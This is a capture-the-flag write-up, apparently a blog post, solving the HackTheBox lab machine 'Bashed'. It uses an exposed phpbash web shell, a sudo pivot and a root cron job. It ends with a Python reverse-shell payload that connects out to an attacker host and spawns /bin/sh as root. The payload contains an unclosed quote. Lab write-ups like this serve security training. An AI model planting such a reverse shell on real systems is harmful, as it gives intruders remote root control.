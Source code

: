 ```yaml
---
layout: post
title: HackTheBox&#58; Bashed
description: Writeup for HTB box Bashed.
category: HackTheBox
---
```


### Introduction

Bashed is a Linux box, difficulty Bashed on HTB.

The box is quite easy and straightforward.
User part is finding a running shell on the webserver.
For pivesc part, first we need to pivot from www-data to scriptmanager, then modify a script that is included in a root cron job.

### Initial Scan

![Bashed-1](/resources/Bashed-1.png)

### User: phpbash.php

The only service running is a webserver on port 80.
Based on the title of the homepage as well as the front page post, we can see this is a development site for a pseudo-bash written in php.
Furthur reading also suggests that the shell is presented somewhere in the site.

With that in mind, running `gobuster` with medium dirbuster wordlist shows a directory named `/dev`.
Here we can find `phpbash.php` and `phpbash.min.php`.
The source code for them is on [github](https://github.com/Arrexel/phpbash).

Here is the shell running as user `www-data` and we can read user.txt.
We are still going to open a reverse shell for other tasks later (`vi` for example).
![Bashed-2](/resources/Bashed-2.png)

### Privesc: scriptmanager and cron job

Running `sudo -l` shows that user `www-data` can run everything as user `scriptmanager`.
So we open a bash shell as `scriptmanager` by running
```bash
sudo -u scriptmanager bash
```

There is an unusual directory belong to `scriptmanager` at `/scripts`, containing `test.py` and `test.txt`.
Looking at the date of `test.txt`, we see that the date of `test.txt` is very new.
Furthurmore the date of `text.txt` seems to change every minute.
This highly suggests that `test.py` is executed every minute as root (because `test.txt` is owned by root).
We can also use [pspy](https://github.com/DominicBreuker/pspy) to confirm this.

We can modify the content of `test.py` to open a root reverse shell and we can read root.txt
```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((LHOST, LPORT))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

p = subprocess.call(["/bin/sh", "-i])
```
![Bashed-3](/resources/Bashed-3.png)
